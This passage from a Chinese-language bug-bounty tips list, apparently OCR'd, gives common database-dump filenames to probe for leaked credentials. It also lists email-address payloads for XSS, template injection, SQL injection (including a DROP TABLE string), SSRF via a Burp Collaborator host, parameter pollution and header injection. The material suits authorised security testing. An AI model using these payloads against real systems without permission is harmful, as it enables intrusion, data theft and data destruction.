 ```bash
/db_backup.sql
/dbase.sql
/dbdump.sql
setup.sql
sqldump.sql
/dump.sql
/mysql.sql
/sql.sql
/temp.sql
```

旧的数据库备份可能包含各种有趣的信息 — 用户凭据、配置设置、机密和 api 密钥、客户数据等等。

## 18\. 电子邮件地址 payloads

By @securinti\[49\]) Source: link\[50\]

下面的 payloads 都是有效的电子邮件地址，我们可以用来对基于网络的电子邮件系统进行测试。

XSS (Cross-Site Scripting):

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

模板注入：

```bash
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL 注入：

```bash
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):

```bash
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

参数污染：

```bash
victim&email=attacker@example.com
```

(Email) 头注入：

```bash
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```
